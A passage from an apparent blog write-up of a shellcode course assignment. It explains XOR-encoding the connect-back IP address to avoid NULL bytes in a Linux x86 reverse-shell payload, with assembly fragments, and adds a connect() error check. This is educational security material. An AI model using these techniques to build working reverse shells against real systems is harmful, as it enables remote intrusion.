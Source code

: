 I've got two paths here:

* change the destination IP address for my assignment. Says eth0:1 is bound to
  127.1.1.1 and override the problem.
* finding a good solution since IP addresses can have 0

The good solution I found, was to encode in some way the IP address I store
into the shellcode and then introduce some instructions to decode it before
putting into the stack.

From the logical operands math, there is one operator I can use to easily
decode an encoded value: XOR.

| A | B | A xor B |
|---|---|---------|
| 0 | 0 |    0    |
| 1 | 0 |    1    |
| 0 | 1 |    1    |
| 1 | 1 |    0    |

The interesting math property applied to XOR is that, given two numbers A and
B, if A XOR B = C, then C XOR B is equal to A.

In my code, A will be the IP address and B a value chosen as encoding KEY and C
the value I put in my shellcode to avoid 0 bytes. If in the assembly, I xor
again the encoded value with the same encoding key, I will obtain the starting
IP address value.

Choosing a good encoding key is the point. Connecting to "255.255.255.255", the
broadcasting address on a TCP connection is a non sense, so 0xFFFFFFFF can be a
good encoding key.

I xor-ed 0x0100007f with 0xffffffff and I putted the result into my assembly
code, in EAX register. Then I xor-ed EAX with 0xffffffff again and I pushed the
resulst into the stack.

{% highlight asm %}
mov eax, 0xfeffff80
xor eax, 0xffffffff
push eax
{%endhighlight%}

As you can see, now our shellcode still works and there are no NULL bytes into
it.

{% asciicast 181335 %}

### Error checking on connect()

As you may see, since the assignment requirement asked to spawn the reverse
shell if the connection succeeded, there is a small error check to make sure
the shellcode won't try to spawn a shell on a faulty socket descriptor.

{%highlight asm%}

...

test eax, eax ; check if eax is zero
jnz exit_on_error

...

exit_on_error:
	mov bl, 0x1	
	xor eax, eax	; zero-ing EAX
	mov al, 0x1
	int 0x80
{%endhighlight%}	
